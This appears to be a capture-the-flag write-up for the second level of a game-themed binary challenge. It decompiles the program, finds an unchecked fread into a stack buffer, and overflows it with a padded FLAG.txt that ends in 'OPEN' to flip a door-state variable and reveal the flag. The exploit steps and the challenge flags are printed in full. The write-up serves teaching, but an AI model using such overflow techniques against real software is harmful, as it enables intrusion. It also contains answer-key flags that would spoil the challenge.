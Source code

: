 # PWNVOYAGE / GAME / PWN-VOYAGE_L2

Finally, things get more interesting. With the `file` command, we can observe that the binary is stripped. Additionally, we are prompted for a file named **FLAG.txt** containing the flags from the previous level.

```

caigoshinobi@freyja:~$ file ./PWN-VOYAGE_L2
./PWN-VOYAGE_L2: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cb162e623a468bace4baa7d427caa120424f421b, for GNU/Linux 3.2.0, stripped

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================


------------------------------------------------------
| *FLAG.txt REQUIRED*                                |
|                                                    |
| Create the FLAG.txt file and insert the flags of   |
| the previous levels, one per line.                 |
------------------------------------------------------

```

After creating the required file, we discover that Knight is attempting to break through the Vault door, which is flagged as **CLOSED**.

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now CLOSED

-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.

```

We move on to the binary with dogbolt.org and try to make sense of it.

```

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[304]; // [rsp+10h] [rbp-2D0h] BYREF
  char ptr[265]; // [rsp+140h] [rbp-1A0h] BYREF
  char haystack[135]; // [rsp+249h] [rbp-97h] BYREF
  FILE *v7; // [rsp+2D0h] [rbp-10h]
  FILE *stream; // [rsp+2D8h] [rbp-8h]

  sub_164E();
  strcpy(haystack, "CLOSED");
  stream = fopen("FLAG.txt", "r");
  if ( stream )
  {
    fread(ptr, 1uLL, 0x12CuLL, stream);
    fclose(stream);
    ptr[33] = 0;
    if ( (unsigned int)sub_151D(ptr) )
    {
      printf("-$> You give an almighty shove. The door is now %s\n", haystack);
      if ( strstr(haystack, "OPEN") )
      {
        v7 = fopen("FLAG.txt", "r");
        if ( v7 )
        {
          fread(v4, 1uLL, 0x12CuLL, v7);
          fclose(v7);
          sub_13EA(v4);
          return 0LL;
        }
        else
        {
          sub_14D8();
          return 1LL;
        }
      }
      else
      {
        puts(
          "\n"
          "-$> You are hurled backward by a spell from the ancient gates, compelled    \n"
          "    to retreat a few paces. The curses of defense begin to graze your armor,\n"
          "    slowly dissolving the metal. Yet, the voice of your conscience continues\n"
          "    to echo just one thing: Keep pushing.\n");
        return 1LL;
      }
    }
    else
    {
      return 0LL;
    }
  }
  else
  {
    sub_14D8();
    return 1LL;
  }
}

```

Some now we know that:

- The `haystack` variable is declared and initialized with the value **CLOSED**. This variable represents the state of the Vault door.

- The program attempts to open the file named **FLAG.txt** in read mode using `fopen`. If successful, it reads the content of the file into the `ptr` array with `fread`, limited to 300 bytes. Then, it closes the file.

- If the `haystack` contains **OPEN** it proceeds to open the **FLAG.txt** file again, reads its content into the `v4` array, closes the file, and calls the `sub_13EA(v4)` function.

- The `sub_13EA` function takes a hexadecimal string and processes it to obtain the flag. 


We can also note a possible vulnerability in this code, primarily due to the use of `fread`. The reason is that `fread` reads data from the file without checking the size of the data compared to the size of the destination buffer, which can lead to a stack overflow if the read data exceeds the buffer's size.


If indeed we insert some A's inside **FLAG.txt**:

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now AAAAAA


-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

It works! So it's possible to insert the string **OPEN** inside the `haystack` variable:

```

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOPEN

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now OPEN

-$> Flag: NTRLGC{H3LL0B1TCH3S!}

```